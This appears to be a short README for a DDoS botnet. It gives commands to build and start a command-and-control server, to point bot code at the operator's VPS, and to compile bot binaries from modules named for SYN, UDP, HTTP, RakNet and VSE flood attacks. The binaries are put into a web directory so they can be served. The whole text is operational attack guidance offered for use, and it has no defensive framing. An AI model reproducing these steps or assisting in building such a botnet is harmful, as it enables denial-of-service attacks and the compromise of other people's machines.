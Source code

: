 # How to compile cnc?
-------------------------
- Run this:
sh buildcnc.sh
-------------------------
screen ./server <botport> <threads> <cncport>
-------------------------
example: screen ./server 1338 10 1337
-------------------------


# How to compile and run bot
- You should change change ip in bot/main.c to your vps ip and bot port screened already
- Run: sh legacybotbuilder.sh and bins will be put into /var/www/html
- Payload: gcc -o bot checksum.c daemon.c http_attack.c \
    raknet_attack.c socket_attack.c syn_attack.c udp_attack.c \
    vse_attack.c main.c -Wall
